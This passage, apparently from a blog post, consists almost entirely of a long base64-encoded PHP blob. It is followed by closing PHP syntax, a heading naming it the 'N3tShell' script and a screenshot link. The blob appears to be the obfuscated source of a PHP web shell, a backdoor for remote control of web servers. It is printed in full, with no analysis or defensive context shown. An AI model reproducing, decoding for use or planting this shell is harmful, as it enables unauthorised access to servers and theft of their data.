5UItEuFMKm5NU5QB+ciedgYz+vrj9AzcNiVy5Wp2NJsVfBckN2TZ9HhsfkXBsjjZ
/yIhqehQxHZGdtmW5WnaJ4Xkm2J+fw2kpxm5t0LEnZnB4yvqFgC7dAa2Fp81HfA
mHnotbQnmaQqtxAZLY22SUnzqU7MOZmrucUQkLadiZR1AP8dyUreZJzdKW5eG43
zu37KYl3dkKaDx80J83njf9PnCW3ezRaYRmMBSfSEpFW5UxMSSyzM5LMQMS2Sg4K
xPZeFz90rqO7Llt2VAl2SJy6YqvsJ44FmRZTFvK2GCl5qBWC9lusQCWlz5U+gNGQ
c4zzEazMtPxkufFm11uMldAMjOJXQlGmrVwB88sKMA1AdCvM5lIYafOYwHCaTTBh
GFia3r+v1i/02hRvvJtNzQxSGxUB491voBI79CuAQSX1dF8+gr5EqIq8EkhvDKrj
dfealMwJteTruKCPmRM0eUKST0YN40HpIeuNpN94+lFhO1X6Jv3wKEySp0GmYX3
hInPSgottOHF8XNPEWdWofTXlSCoJy2mgbT7Cf1qZhlYmDSxp4MBZ4TlZE5rFjV
h9+euOqzSvzMgQ9xBm76SaKeRm2k2TZCJ4sTV9DDXfNgMPPd2JfVrfVU2Vf70WOH
oFiFVJtvi8PWp1BqLwMbKIfyAf/op9WO4D7nt5BTq0Vmc6xYlOtyTzQNfOUzw26M
jTH43Wbjkezbche9/x/DW1LnWHRTyfroNwNNvmKxXPfOoM6ErNeAyAtf8lu0jNvN
NwU4lkvIU6bHL5t6qFHNS3D/83OkyVka9l5EtypsvDT5n6VcXe4vjJ0dKc8e7g7y
nGXYjdKMYg5FcaB8J961hSp7v2xfd6rY0Nq2Y6lBGec3WGNu+0J6gtabovTNOSN
ClS1jjAIAyva7Ua023HSQybu6CaLc1OD1bKSH80RErxDThpHEtefbkFlOSoEtcm
mvGTkM4bW6FKrSVnVoqmTckBIS9Dvv69qReXSVc705OA5qpet2opz6Pn5fPB/fPK
eVT7Ca3UgflhXfLV1+1Kro4w83BZfelNLUXJA7HRTD2MnhVDG8uW8nyuZOx6rh5q
IQGgaAc5Onjp+h62JB9W3jKkX9tt43QxMpVl770icXFOxZwhQSmxPjgUVM1uAROC
OdoI3WRXo9QfzEYvK9a4UyEietfojn+paN0QhcKSYujhhntQrEh2IqV7YxuHZsPi
O9wM/TLna9fYBVscFVlto0riCuN7Oyv7XhSjE8bVaGz+j2nchTl/547c/B8TeZA
sqDvT+uB/TOsbY6WxsoWBIyw9noWiW2gALSX/oU5+Q1cTo5RmYYuEftJ+GExydZ
RSzZRBQes6myxwnAarYJBmMRh8LYfXXv2QJ+4LTzRNKp6Ik62J37AKXAGjYqHFtQ
rzLU8JbU2X9X4DCyFi1JaVh6EC1cU8H9NNKbTKehhapjkaxbB5ht046AbzWNcKT9
BoD/p0l212fmxIp/vKW1KBYvL3EiP1lP9nuu9caWlQ6w9r/YmQbSIXJ48neRTteK
jMnTU5hPP/7HR//REGbtKU0OF4KzGNm2gQNzG1aiJqqd5tKYV0pQWnecix1mo/9Q
fn0f3yp/+z9fl+pbRmVc3rg3COc+9rwityj03SNY6mgJByLtCm0FfwuWzI+61+F
5Up014lLHvLSr12650Y0JoRCjNUHjswKZUFhXtF4PunwYxc4aTTX5AIYMscjCxf
8J2q+5qVnPK0g1EuvOkgWNT2LtH1CRPf+s4MNkiXEqMy/an9uvfh2dG7Q0R1ie64
JoNI+Gt7wuVltsqah0J2o/aCi1lZ3A8RAEU7qYofM7fGg8q14NOFe42O0sX+xmVD
j+SFYh6ur8v5A1867TpnwtQzgj7PkQUGSj8B4GfTRQKkcBGUuEvKijAipaxIyKh4
RWybUAlPSd9aJ6f9xozlCsuqDEV4xVTJLJjxUeff5tGYAMwUIZDk/a3Rtt7gm7G6
0FomIyn25BUc7PeHplP91CYC5y/dr8/tytfM0mijp/ytVAlKM2MeY+P508tEPby
saJuhSgiDi3Gw6LoYUyeShR43WsJhf76Nxl0wsPT9XrfVcHzPiUSQQflgrbYVyn
Qj4XltKmw1Eocil6TvY6eCDAazmHRAmO/0XL9trecd0lM4AdaRJZDQ8u5vuJO+0b
gDwy4kV+J0SYIGu1aa4ukv7EJujRLxT1ny2LlWKFzlMHn3x1lEc436WptHPLFwHq
XL8IS7zaRvwGHp/BzbngZJEPcVwjHs/K3xGJbY7mht0OvPY9T++uubGKIsdSFe/n
FdcUg0SoRPGDS7jGwaXAh4b2GgpOQBzAy2QcQHRlSJXhACuvVeAPNm0qpvcW4YPl
jktiiY+terxEXIf/qyVuaEMoEikscv/sxgkNtqzK4Y7NVwN/phMHy4lVGD+OHhQ
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'\x29\
x29\x29\x3B&quot;,&quot;.&quot;);?>


exit;
?>
{% endhighlight %}


### N3tShell script Screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/n3tshell-1024x515.png" alt="n3tshell script screenshot" width="604" height="303" class="aligncenter size-large wp-image-338" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/n3tshell.png
